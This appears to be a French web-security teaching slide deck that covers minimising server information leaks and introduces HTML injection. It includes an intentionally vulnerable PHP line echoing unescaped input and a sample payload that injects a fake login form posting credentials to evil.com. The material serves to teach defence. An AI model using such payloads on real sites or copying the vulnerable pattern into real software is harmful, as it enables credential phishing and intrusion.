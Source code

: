 Retenez:

  * Il ne faut pas faciliter la tâche à votre assaillant
  * Ne lui donnez pas la liste des failles qu'il peut tenter
  * Un serveur qui "parle" trop incite l'assaillant à tenter plus de choses, cela démontre un faible niveau de sécurité
  * Chaque information peut-être réutilisée (pensez social engineering)
  * Si vous affichez des informations inutiles, pensez à tromper votre assaillant

--------------------------------------------------------------------------------

# Injections

> Presque toutes les failles sont des failles d'injection, si on veut.
-- Moi.

En mieux:

> SQL injection is a special case of syntax tree mutation. *All* languages are susceptible to it, and everything is a langage. #langsec
 - twitter: active wreck chords @jcoglan

--------------------------------------------------------------------------------

## Injection - HTML

    !html
    <input type="text" name="search" value="<? echo $_GET['search']; ?>">

Entrez ceci::

    !html
     What?"><h1>Oups</h1><input type="checkbox

Et le résultat:

    !html
    <input type="text" name="search" value="What?">
    <h1>Oups</h1>
    <input type="checkbox">

--------------------------------------------------------------------------------

## Injection - HTML

Pas grave? essayez:

    !html
    " ><div class="big-overlay"></form>
    <form method="POST" action="http://www.evil.com">
      <p class="secure">Please re-enter you credentials</p>
      <label>Login:</label>
        <input type="text">
      <label>Mot de passe:</label>
        <input type="password">
    </div>
    <foo "
